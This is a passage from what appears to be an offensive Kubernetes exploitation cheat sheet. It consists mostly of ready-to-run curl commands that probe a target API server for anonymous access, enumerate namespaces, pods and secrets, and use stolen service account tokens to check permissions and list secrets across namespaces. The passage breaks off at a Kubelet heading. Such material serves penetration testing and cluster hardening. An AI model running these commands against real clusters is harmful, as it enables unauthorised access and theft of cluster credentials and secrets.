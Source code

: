 
## Core Kubernetes Services

### API Server Exploitation

#### Unauthenticated Access
```bash
# Check for anonymous access
curl -sk https://<target>:6443/api/v1/namespaces
curl -sk https://<target>:6443/api/v1/nodes
curl -sk https://<target>:6443/api/v1/pods

# Common misconfigurations
curl -sk https://<target>:6443/api/v1/namespaces/default/secrets
curl -sk https://<target>:6443/api/v1/namespaces/kube-system/secrets
curl -sk https://<target>:6443/api/v1/namespaces/kube-public/configmaps

# Check for exposed metrics
curl -sk https://<target>:6443/metrics

# Discovery API endpoints
curl -sk https://<target>:6443/api/v1 | jq -r '.resources[].name' | sort
curl -sk https://<target>:6443/apis | jq -r '.groups[].preferredVersion.groupVersion' | sort
```

#### Token-based Authentication
```bash
# Using stolen service account tokens
TOKEN="eyJhbGciOiJSUzI1NiIs..."
APISERVER="https://<target>:6443"

# Test token validity
curl -sk -H "Authorization: Bearer $TOKEN" $APISERVER/api/v1/namespaces

# Enumerate permissions
curl -sk -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/authorization.k8s.io/v1/selfsubjectaccessreviews \
  -X POST -H "Content-Type: application/json" \
  -d '{"kind":"SelfSubjectAccessReview","apiVersion":"authorization.k8s.io/v1","spec":{"resourceAttributes":{"namespace":"default","verb":"*","resource":"*"}}}'

# List secrets across namespaces
for ns in default kube-system kube-public; do
  echo "Namespace: $ns"
  curl -sk -H "Authorization: Bearer $TOKEN" \
    "$APISERVER/api/v1/namespaces/$ns/secrets" | jq -r '.items[].metadata.name'
done
```

### Kubelet API Exploitation
